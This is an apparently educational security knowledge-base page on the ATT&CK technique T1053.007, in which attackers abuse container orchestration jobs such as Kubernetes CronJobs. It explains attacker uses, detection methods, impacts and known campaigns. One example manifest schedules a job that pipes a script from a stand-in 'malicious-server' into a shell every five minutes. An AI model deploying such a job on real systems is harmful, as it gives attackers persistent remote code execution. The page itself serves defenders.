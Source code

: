 ```yaml
---
description: Container Orchestration Job [T1053.007]
icon: lock
---
```


# Container Orchestration Job

## Information

* Name: Container Orchestration Job
* ID: T1053.007
* Tactics: [TA0002](../), [TA0003](../../ta0003/), [TA0004](../../ta0004/)
* Technique: [T1053](./)

## Introduction

Container Orchestration Job (T1053.007) is a sub-technique within the Scheduled Task/Job (T1053) technique category of the MITRE ATT\&CK framework. This sub-technique specifically involves adversaries leveraging container orchestration platforms, such as Kubernetes, Docker Swarm, Amazon ECS, or Azure Container Instances, to schedule and execute malicious jobs or tasks. Attackers exploit legitimate job scheduling functionalities provided by these platforms to execute unauthorized commands, scripts, or binaries, thus achieving persistence, lateral movement, privilege escalation, or command and control (C2) communications.

## Deep Dive Into Technique

Adversaries utilize container orchestration systems' built-in scheduling capabilities to execute malicious tasks. Container orchestrators such as Kubernetes and Docker Swarm periodically execute scheduled tasks or jobs, defined through YAML or JSON configuration files, to automate routine operations. Attackers exploit this functionality by injecting or modifying these scheduled jobs to run malicious payloads.

Technical execution details often include:

* **Kubernetes CronJobs**:
  * Attackers create or modify CronJob resources to execute scripts or commands at scheduled intervals.
  * YAML manifests specify the container image, commands, and execution schedules (cron syntax).
  *   Example Kubernetes manifest:

      ```yaml
      apiVersion: batch/v1
      kind: CronJob
      metadata:
        name: malicious-job
        namespace: default
      spec:
        schedule: "*/5 * * * *"
        jobTemplate:
          spec:
            template:
              spec:
                containers:
                  - name: malicious-container
                    image: attacker-controlled-image
                    command:
                      [
                        "/bin/sh",
                        "-c",
                        "curl http://malicious-server/payload.sh | sh",
                      ]
                restartPolicy: OnFailure
      ```
* **Docker Swarm Scheduled Tasks**:
  * Docker Swarm does not natively support scheduling jobs; however, attackers might leverage external schedulers or cron containers to achieve similar functionality.
  * Attackers deploy malicious containers that periodically execute commands or scripts to maintain persistence or exfiltrate data.
* **Cloud Container Platforms (Amazon ECS, Azure Container Instances)**:
  * Attackers schedule tasks using cloud-native scheduling tools (e.g., AWS CloudWatch Events, Azure Logic Apps) to trigger malicious container executions.
  * Attackers manipulate task definitions or event triggers to execute containers containing malicious payloads.

Common mechanisms attackers use include:

* Creating new scheduled jobs to establish persistence or maintain a foothold.
* Modifying existing legitimate jobs to include malicious commands or payloads.
* Using orchestrator APIs or compromised credentials to deploy malicious scheduled tasks.
* Leveraging scripts or binaries within containers to perform reconnaissance, lateral movement, or data exfiltration.

## When this Technique is Usually Used

Adversaries typically employ Container Orchestration Jobs during various stages of the attack lifecycle, including:

* **Persistence**:
  * Scheduling malicious tasks that periodically re-establish access if initial footholds are removed.
  * Ensuring continued presence within compromised environments through regular execution of malicious payloads.
* **Execution**:
  * Utilizing scheduled tasks to execute payloads, scripts, or commands on containerized workloads.
  * Automating command execution within compromised systems at predetermined intervals.
* **Privilege Escalation and Lateral Movement**:
  * Exploiting orchestrator privileges or misconfigurations to schedule tasks in higher-privileged namespaces or clusters.
  * Moving laterally by scheduling tasks on other nodes or clusters within the orchestrated environment.
* **Command and Control (C2) Communications**:
  * Scheduling containers that periodically communicate with attacker-controlled infrastructure to receive commands or exfiltrate data.
* **Data Exfiltration**:
  * Automating data collection and exfiltration through scheduled container tasks.

## How this Technique is Usually Detected

Detection mechanisms for Container Orchestration Jobs typically include:

* **Monitoring and Logging**:
  * Enabling and centrally collecting logs from container orchestration platforms (e.g., Kubernetes API server audit logs, Docker daemon logs).
  * Monitoring scheduled job creation, modification, or deletion events closely.
* **Behavioral Analytics**:
  * Implementing anomaly detection solutions to identify unusual scheduled job creation or execution patterns.
  * Detecting unusual container images or commands used in scheduled tasks.
* **Security Tools and Platforms**:
  * Container security solutions (e.g., Aqua Security, Sysdig, Prisma Cloud) capable of detecting suspicious container images, runtime behaviors, and orchestrator API activities.
  * SIEM platforms (Splunk, ELK, QRadar) configured to alert on suspicious orchestration events or API calls.
* **Indicators of Compromise (IoCs)**:
  * Unexpected CronJob or Job resources appearing in Kubernetes clusters.
  * Scheduled tasks referencing unknown or untrusted container images.
  * Unusual outbound network connections originating from scheduled containers.
  * Logs indicating unauthorized API calls or modifications to orchestrator configurations.

## Why it is Important to Detect This Technique

Early detection of Container Orchestration Job misuse is critical due to the following impacts:

* **Persistent Access**:
  * Attackers can maintain long-term persistence within containerized environments, making remediation challenging without detection.
* **Data Exfiltration**:
  * Scheduled malicious tasks can regularly exfiltrate sensitive data, intellectual property, or customer information, leading to significant financial and reputational damage.
* **Resource Abuse and Cost Implications**:
  * Attackers may use scheduled containers for cryptocurrency mining or other resource-intensive tasks, causing increased infrastructure costs.
* **Privilege Escalation and Lateral Movement**:
  * Misuse of orchestration platforms can allow attackers to escalate privileges or move laterally across container clusters, significantly expanding the attack surface.
* **Operational Disruption**:
  * Malicious scheduled tasks can disrupt legitimate workloads, degrade performance, or cause service outages, impacting business continuity.

Detecting this technique early allows organizations to rapidly contain incidents, minimize damage, and prevent attackers from achieving their objectives.

## Examples

Real-world examples and scenarios involving Container Orchestration Jobs include:

* **TeamTNT Attacks**:
  * Attackers leveraging Kubernetes CronJobs to deploy cryptocurrency mining containers.
  * Scheduled tasks periodically pulling malicious container images from attacker-controlled registries to mine cryptocurrencies, leading to increased cloud infrastructure costs and degraded performance.
* **Hildegard Malware**:
  * Hildegard malware targeted Kubernetes clusters, creating CronJobs to execute malicious scripts.
  * Scheduled tasks downloaded and ran malicious payloads, enabling attackers to establish persistence, conduct lateral movement, and exfiltrate data.
* **Kinsing Malware Campaign**:
  * Attackers used compromised Kubernetes clusters to schedule malicious jobs for cryptocurrency mining.
  * CronJobs executed periodically, ensuring persistent access and continuous resource abuse.
* **Azure Container Instance (ACI) Exploitation**:
  * Adversaries compromised Azure Container Instances, scheduling malicious containers that executed scripts to exfiltrate sensitive data to external servers.
  * Attackers leveraged Azure Logic Apps or Azure Automation to trigger scheduled malicious containers.

In these scenarios, attackers leveraged scheduled container tasks to maintain persistence, execute malicious commands, escalate privileges, and exfiltrate data, demonstrating the critical importance of monitoring and detecting Container Orchestration Job abuses.
